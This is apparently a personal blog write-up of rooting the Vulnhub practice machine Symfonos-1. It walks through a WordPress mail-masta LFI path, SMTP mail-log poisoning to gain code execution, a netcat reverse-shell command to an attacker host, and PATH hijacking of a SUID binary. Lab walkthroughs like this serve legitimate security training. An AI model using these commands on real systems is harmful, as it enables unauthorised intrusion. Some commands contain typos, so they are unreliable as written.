



Symfonos - Vulnhub
Uploaded : Sept 06 2021
Defficulty: Easy
Hi guys!, so tody we are gonna root a very easy machine from vulnhub which is Symfonos-1, Symfonos is a series of machines in which there are total 4 to 5 machine and we are going to root all of them in upcomming writeup's, so let's hunt the ROOT!
Host Discovery
To find the IP of target machine i am going to use nmap or we can use netdiscovery also depends on your choice but i'll recommend nmap because it is so accurate.

Nmap Scan
After that we need to scan the target machine so for that i am using(nmap) a basic scan method which is default scripts, enum all versions, all ports and output all formats. If you dont know Nmap scanning commands then i'll recommend to read my previous blog on nmap.
Command:
sudo nmap -sC -sV -p- -T4 192.168.0.105 -oA nmap/all-port
So the scanning is done and we can see the results in the image below.
Here we can see port 22,25,80,139,445 are open, so first of all let's look at port 80 which is a webpage, but before that we need to add domain name which is symfonos.local in our hosts file as show in the image.
Web Enumeration
As shown in the image below we can see there is nothing much intreasting in the webpage and in the source code.
Let's try to brute force web directories on by using go buster and as we can see in the image there is only one directory which is /manual and again nothing much intreasting just a apache manual we can try to brute force username and password but lets do some more enumuration.
Gobuster:
SMB Shares Enumeration
Previously in our Nmap scan we found ports 139&445 were open so let's use lin4enum to enumerate smb shares.
Command:
lin4enum 192.168..0.105
So as we can see in the result image below we found 2 main shares helios and anonymous, helios is read-only which means we need password for that but we can connect to anonymous without password, so let's try that.
After connecting to anonymous i found a text file. So we can use get command to download file in our current directory as shown in the image below.

Looking inside the attention.txt i found some passwords.
So lets try this passwords to connect to helios share, and as we can see in the image, we can connected to helios share so here again i found 2 text files lets grap that with get command.
After looking inside both the file i found web directory name inside todo.txt. So lets visit to http://192.168.0.105/h3l105
Wpscan
So as we can see in the image that this is a normal wordpress website, so whenever the word "wordpress" comes immediately scan that website with wpscan.
Command:
wpscan --url http://192.168.0.105/h3l105/ --enumerate p
--url = to specify url of target site--enumerate p = to enumerate all installed plugins
As we can see in the image below our wpscan found a vulnerable plugin which is installed on this website.
So as we can see in the image below the plugin mail-masta is vulnerable LFI (local file inclusion) and our searchsploit has found exploit for it so lets copy that exploit to our current directory. To do that use this command.
Command:
searchsploit -m [path of exploit]
The exploit file gives us the exact path from where we can permorm local file inclusion. As shown in the image below.
LFI path:
http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
and as we can see it is working Great!.
LFI to RCE
Ok so to convert this LFI into RCE we can try to poison apache2 logs but in our case we dont have permissions to read apache logs, so we know that port 25 is open which is SMTP (mail server) we can try to access smtp mail logs and try to poison it, to do so we need to go to the /var/mail/helios. Why helios?, because we know only one username which is helios and if this helios is using SMTP mail server then then there will be logs for that.
As shown in the image above we can see that we can access the mail logs so lets try to poison it, do to so we need to connect to port 25(SMTP) with telnet and then inject a php command.
OK so we sucessfully injected php shell inside mail logs and as shown in the image below we can now execute commands.
Here i am using netcat to get a reverse shell on our machine to do so use this command.
Command:
nc -e "/bin/bash" [attacker ip] [port]
Now are in so first of all lets spawn a python pty shell. To use clear command we need to export TERM veriable to xterm as shown in the command blow.
Command:
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm (to use clear command)
ROOT Access
We own the user now but we dont have permission to see root files so we need to get root access. I tried to look inside helios home directory but nothing much intreasting.
Now let's try to enumerate SUID binaries with the help of find command.
Command:
find / -per -u=s -type f 2>/dev/null
So i found a SUID binary which we can run as a root user. we can reverse that binary to get root access to do so 1st we need to look inside that binary and understand exactly what is happning after we run that binary.

as we cann see in the image above i used strings command to look inside our binary and i found that after running it is running another executable which is curl but the exact path of curl is not defined in it so we can spoof the path.
as shown in this image i made another curl executable in tmp folder and put a root bash shell inside that so if our fake curl executable is run as a root then we will directly spawn to a root shell.
So after spoofing the path to our fake curl exec path we are ready to run that suid binary which is /opt/statuscheck.
and as we can see in the image above, we got the root shell which means we sucessfully ROOTED this machine!
@2021 Rushi0x04T7. Some rights reserved.